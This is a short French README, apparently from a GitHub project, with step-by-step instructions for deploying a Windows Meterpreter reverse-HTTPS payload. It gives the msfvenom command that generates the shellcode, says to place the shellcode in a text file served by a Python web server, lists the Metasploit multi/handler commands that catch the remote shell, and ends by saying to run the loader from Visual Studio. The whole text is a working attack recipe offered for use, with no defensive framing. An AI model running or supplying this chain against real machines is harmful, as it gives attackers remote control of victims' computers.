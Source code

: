 Sur kali executer la commande : 

# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT= <port> -f c >> meter.c

Dans le fichier PythonFiles:

Dans payloadClear.txt placer le shellcode obtenu dans meter.c
Executer le fichier PythonWebServer.py

Ensuite dans kali:

# msfconsole
# use multi/handler
# set payload windows/x64/meterpreter/reverse_https
# set lhost <ip>
# set lport <port>
# run

Sur Visual Studio lancer le code.
